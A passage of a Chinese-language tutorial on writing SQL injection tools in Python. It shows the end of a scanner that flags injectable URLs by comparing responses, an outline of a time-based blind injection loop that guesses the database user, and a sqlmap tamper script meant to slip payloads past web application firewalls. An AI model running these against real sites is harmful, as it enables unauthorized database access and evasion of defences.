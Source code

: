 ```
    html2 = req.content

def main():
    try:
        req1(urls[0])
        req2(urls[1])
        if html1 != html2:
            print "[+] Find SQL",urls[1]
        else:
            pass
    except:
        pass

if __name__ == '__main__':
    f = open('url.txt','r')
    for url in f:
        url = url.strip()
        url_bypass(url)  # c处理url
        main() #判断SQL
        urls = [] #清空列表
```  

这里仅以SQL判断思路进行编写，猜测数据库等操作也相同  

抛砖引玉，只需要更换sql语句，利用for循环即可  

大致思路：（延时注入获取数据库）  

payloads='abcdefghigklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789@_.'  

遍历payloads  

判断延迟时间，利用time比较，如果时间大于xxx，则字符存在  

```
for x in payloads:
	url+and if(length(user)=%s,3,0)%x
```  

## Pyhacker 之 SQLMAP tamper编写

tamper是对其进行扩展的一系列脚本，主要功能是对本来的payload进行特定的更改以绕过waf。  

一个简单的tamper:  

```
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.LOWEST
def dependencies():
    pass
def tamper(payload, **kwargs):
    return payload.replace("'", "\\'").replace('"', '\\"')
```  

我们只需要修改这两部分：  
